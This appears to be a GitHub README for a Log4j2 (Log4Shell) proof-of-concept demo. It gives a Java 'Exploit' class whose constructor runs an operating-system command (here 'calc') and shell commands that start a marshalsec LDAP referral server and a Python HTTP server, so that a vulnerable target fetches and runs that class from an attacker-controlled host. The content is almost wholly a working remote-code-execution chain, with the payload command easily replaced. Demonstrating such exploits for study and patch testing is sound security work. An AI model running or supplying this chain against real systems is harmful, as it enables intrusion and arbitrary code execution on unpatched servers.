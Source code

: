 # log4j2 poc web app demo

## evil code

src at src/main/java/com/example/exploitCode

```java
package com.example.exploitCode;

public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"calc"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```


## start JNDI server
```shell
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your_ip:8888/#Exploit"
```

## start http server
```shell
python -m http.server 8888
```